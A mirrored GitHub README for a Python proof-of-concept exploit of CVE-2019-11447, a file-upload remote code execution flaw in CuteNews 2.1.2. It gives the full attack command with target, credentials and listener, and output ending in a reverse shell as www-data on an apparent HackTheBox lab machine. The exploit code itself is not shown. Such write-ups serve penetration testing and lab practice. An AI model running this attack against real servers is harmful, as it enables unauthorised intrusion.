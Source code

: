 # cve-2019-11447

CutePHP Cute News 2.1.2 RCE PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/thewhiteh4t](https://github.com/thewhiteh4t) |
| Url      | [https://github.com/thewhiteh4t/cve-2019-11447](https://github.com/thewhiteh4t/cve-2019-11447)                                               |
| Stars    | 6                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cutenews* cutephp* cve-2019-11447* exploit* python* rce

</details>

## Readme

# CVE-2019-11447
## CutePHP Cute News 2.1.2 RCE PoC

**Target :** 2.1.2

This PoC script is based on a simple implementation of the original exploit by **BobbySox**. The original exploit is an MSF module by **Akuss**.

This script needs the target ip address or domain along with credentials and it will automatically login, upload payload, trigger it and catch the reverse shell.

```
python cve-2019-11447.py -t 10.10.10.206 -u twh -p p4ssw0rd -lh 10.10.16.2 -lp 4444 -f shell

--------------------------------------
--- CVE-2019-11447 -------------------
--- CuteNews Arbitrary File Upload ---
--- CutePHP CuteNews 2.1.2 -----------
--------------------------------------

[>] Found By : Akkus       [ https://twitter.com/ehakkus     ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.10.206/CuteNews/index.php
[>] Username : twh
[>] Password : p4ssw0rd

[!] Logging in...
[+] Logged In!
[+] Loading Profile...
[+] Searching Signatures...
[!] Uploading Payload...
[+] Loading Profile...
[+] Searching Avatar URL...
[*] URL : http://passage.htb/CuteNews/uploads/avatar_twh_shell.php
[!] Payload will trigger in 5 seconds...
[!] Starting Listner...
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.206 on port 35196
[*] Switching to interactive mode
bash: cannot set terminal process group (1656): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ $ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@passage:/var/www/html/CuteNews/uploads$ $
```

## Dependencies

```
pip3 install requests bs4 pwntools
```

## Usage

```
python cve-2019-11447.py -h
usage: cve-2019-11447.py [-h] [-t TARGET] [-u UNAME] [-p PASSW] [-lh LHOST] [-lp LPORT] [-f FILE]

optional arguments:
  -h, --help                    show this help message and exit
  -t TARGET, --target TARGET    Target IP address or domain
  -u UNAME, --uname UNAME       Username
  -p PASSW, --passw PASSW       Password
  -lh LHOST, --lhost LHOST      Listener IP address
  -lp LPORT, --lport LPORT      Listener Port
  -f FILE, --file FILE          Filename for payload WITHOUT extension
```

## Credits

* Thank you **Akuss** for discovering this vulnerability
    * https://www.exploit-db.com/exploits/46698/

* Thank you **BobbySox** for implementing it in a simple way
    * https://github.com/kyle41111/CuteScript


## Get the content

```
git clone https://github.com/thewhiteh4t/cve-2019-11447
cd cve-2019-11447
```

{% embed url="https://github.com/thewhiteh4t/cve-2019-11447" %}

<figure><img src="https://avatars.githubusercontent.com/u/36354846?v=4" alt=""><figcaption><p>thewhiteh4t</p></figcaption></figure>
